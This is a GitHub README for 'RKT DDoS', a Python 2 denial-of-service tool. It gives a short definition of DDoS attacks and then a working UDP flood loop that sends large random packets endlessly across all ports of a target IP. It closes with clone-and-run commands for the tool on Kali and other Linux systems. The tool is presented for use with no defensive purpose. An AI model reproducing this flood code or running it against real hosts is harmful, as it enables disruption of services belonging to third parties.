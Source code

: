 [![MIT](https://img.shields.io/packagist/l/doctrine/orm.svg)](https://github.com/r3k4t/rktddos/blob/master/LICENSE) 
[![python](https://img.shields.io/badge/python-2.7-brightgreen.svg)](https://www.python.org/download/releases/2.7/)
[![OS](https://img.shields.io/badge/Tested%20On-Linux20%)

<h2>RKT DDoS</h2>

<h4>Author : RKT</h4>

### Descripton ###

![DDOS Attack-compressed](https://user-images.githubusercontent.com/69615463/96414395-b0326e00-120a-11eb-832a-a66f32b6f2dd.jpg)


### DDos(Distributed Denial-Of-Service) ###

A distributed denial-of-service (DDoS) attack is a malicious attempt to disrupt the normal traffic of a targeted server, service or network by overwhelming the target or its surrounding infrastructure with a flood of Internet traffic.

DDoS attacks achieve effectiveness by utilizing multiple compromised computer systems as sources of attack traffic. Exploited machines can include computers and other networked resources such as IoT devices.

From a high level, a DDoS attack is like an unexpected traffic jam clogging up the highway, preventing regular traffic from arriving at its destination.


### Python DDoS Code(Basic) ###

>>>import socket
<br>
>>>import random
<br>
>>>rkt = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
<br>
>>>bytes = random._urandom(51200)
<br>
>>>ip   = "127.0.0.1"
<br>
>>>port = 80
<br>
>>>sent = 0
<br>
>>>while True:
      <br>
>>> ...  rkt.sendto(bytes,(ip,port))
       <br>
>>> ...  sent = sent + 1
       <br>
>>> ...  port = port + 1
       <br>
>>> ...  print "SENT %s PACKET TO %s THROUGHT PORT:%s" % (sent,ip,port)
       <br>
>>> ...  if port == 65535:
       <br>   
>>> ...   port = 1
  

#### Tested On ###

<ul>
<li>Ubuntu</li>
<li>Kali Linux</li>
<li>Linuxmint</li>
<li>Parrot Os</li>
</ul>


### Setup ###

<ul>
<li>sudo pip2 install requirements.txt</li>
</ul> 

### Terminal Command ###

<ul>
<li>git clone https://github.com/r3k4t/rktddos.git</li>
<li>cd   rktddos          </li>
<li>sudo python2 rktddos.py</li>
</ul>

### Screentshots ###

![Screenshot at 2020-10-19 12-54-05](https://user-images.githubusercontent.com/69615463/96414279-8aa56480-120a-11eb-82c0-4833bd7dba4a.png)

Next

![Screenshot at 2020-10-19 12-54-22](https://user-images.githubusercontent.com/69615463/96414316-96912680-120a-11eb-8e82-7b68da167f4c.png)


Next


![Screenshot at 2020-10-19 12-54-27](https://user-images.githubusercontent.com/69615463/96414350-a14bbb80-120a-11eb-8a39-368429a790ef.png)







